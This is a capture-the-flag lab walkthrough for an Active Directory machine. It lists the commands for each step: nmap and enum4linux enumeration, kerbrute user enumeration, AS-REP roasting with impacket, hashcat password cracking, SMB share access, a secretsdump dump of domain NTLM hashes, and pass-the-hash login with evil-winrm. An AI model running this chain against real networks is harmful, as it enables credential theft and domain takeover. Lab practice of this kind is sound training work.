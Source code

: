 ##Machine Details
ipaddr=10.10.XX.XX

##Pre Reqs
```
git clone https://github.com/SecureAuthCorp/impacket.git
pip3 install -r requirements.txt
python3 setup.py install

apt install bloodhound neo4j
pip3 install bloodhound

wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64 -O kerbrute
```

#wordlists
```
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
```

##Enumeration

Initial nmap scan
> ```nmap 10.10.204.84 -vvv -Pn -sV -oN nmap-output.txt```

narrow it down to open ports.
> ```nmap 10.10.204.84 -vvv -p 135,139,445,88,3389 -sC -sV -oN nmap-script-scan.txt```

use enum4linux
> ```enum4linux -a ip```

##Kerberos 
> ```./kerbrute userenum --dc 10.10.XX.XX -d spookysec.local userlist.txt```

found usernames saved to kerbrute-usernames.txt

##Abusing Kerberos

Using the list from kerbrute

> ```python3 impacket/examples/GetNPUsers.py spookysec.local/ -usersfile kerbrute-usernames.txt -format hashcat -outputfile impacket-getnpusers.txt```

identify the hash at https://hashcat.net/wiki/doku.php?id=example_hashes

> ```hashcat -h ```
find Kerberos 5

> ```hashcat -m 18200 impacket-getnpusers.txt passwordlist.txt --force```

save output to hashcat-results.txt

##Back to enumeration
Using smbclient and found password

list shares
> ```smbclient -L 10.10.204.84 -U 'spookeysec.local\svc-admin'```

connect to a share
> ```smbclient //10.10.204.84/backup -U 'spookeysec.local\svc-admin'```
```ls``` to show contents
use ```more``` to view contents of txt file

find hashtype
decode online to view contents

save to file

##Domain privileges escalation

using ```secretsdump.py``` get the ntds.dit

> ```python3 impacket/examples/secretsdump.py -just-dc-ntlm  spookysec.local/backup@10.10.XX.XX```

save output to file

Evil-WinRM to use hash to log in.

##flags

Use Evil-WinRM to get the flags using the hashes collected

evil-winrm -i 10.10.XX.XX -u administrator -H cb4fc
 and so on
